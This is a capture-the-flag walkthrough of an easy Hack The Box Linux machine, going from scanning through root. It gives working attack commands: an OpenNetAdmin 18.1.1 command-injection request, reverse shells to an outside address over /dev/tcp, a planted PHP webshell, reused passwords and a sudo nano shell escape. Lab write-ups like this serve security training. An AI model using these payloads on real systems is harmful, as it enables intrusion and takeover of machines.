 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
**Tags:** `OpenNetAdmin`, `webshell`, `password reuse`, `sudo nano`, `GTFObins`

---

## 📡 Recon

### Nmap Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.171
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.171
```

- Open ports: `22 (SSH)`, `80 (HTTP)`
- Apache 2.4.29, [OpenSSH 7.6](SSH) → Ubuntu 18.04

---

## 🌐 [Web Enumeration](HTTP)

### Gobuster

```bash
gobuster dir -u http://10.10.10.171 \
  -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
  -x php,txt,html -o scans/gobuster-root-php_txt_html
```

✅ Found:
- `/music`, `/artwork`, `/sierra`, `/ona`

### OpenNetAdmin (ONA)

- Version 18.1.1 (vulnerable)

---

## 🐚 Shell as www-data

### Exploit OpenNetAdmin RCE

```bash
curl -s -d "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping" http://10.10.10.171/ona/
```

### Reverse Shell Payload

```bash
curl -s -d "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'&xajaxargs[]=ping" http://10.10.10.171/ona/
```

### Listener

```bash
nc -lvnp 443
```

✅ Shell as `www-data`

---

## 👤 Priv Esc: www-data → jimmy

### Database Password Reuse

```bash
cat /var/www/html/ona/local/config/database_settings.inc.php
# Found password: n1nj4W4rri0R!
```

### Switch User

```bash
su jimmy
```

✅ Shell as `jimmy`

---

## 👥 Priv Esc: jimmy → joanna

### View Internal Site Config

```bash
cat /etc/apache2/sites-enabled/internal.conf
# Port 52846, user joanna
```

### SSH Tunnel

```bash
ssh jimmy@10.10.10.171 -L 52846:localhost:52846
```

### Path 1: Webshell

```bash
echo '<?php system($_GET["cmd"]); ?>' > /var/www/internal/shell.php
curl "http://127.0.0.1:52846/shell.php?cmd=id"
curl "http://127.0.0.1:52846/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'"
```

### Path 2: Decrypt Joanna’s SSH Key

```php
# From index.php: password = joanna
# Get key from main.php after login
```

Decrypt the key:

```bash
openssl rsa -in joanna-enc -out id_rsa_joanna
# Pass: bloodninjas
```

Login:

```bash
ssh -i id_rsa_joanna joanna@10.10.10.171
```

✅ Shell as `joanna`  
📄 `cat user.txt`

---

## 🔓 Priv Esc: joanna → root

### Sudo Rights

```bash
sudo -l
# /bin/nano /opt/priv (NOPASSWD)
```

### GTFObins - Nano Shell Escape

```bash
sudo /bin/nano /opt/priv
# Ctrl + R, then Ctrl + X
# Enter: reset; sh 1>&0 2>&0
# Then: bash
```

✅ Root shell  
📄 `cat /root/root.txt`
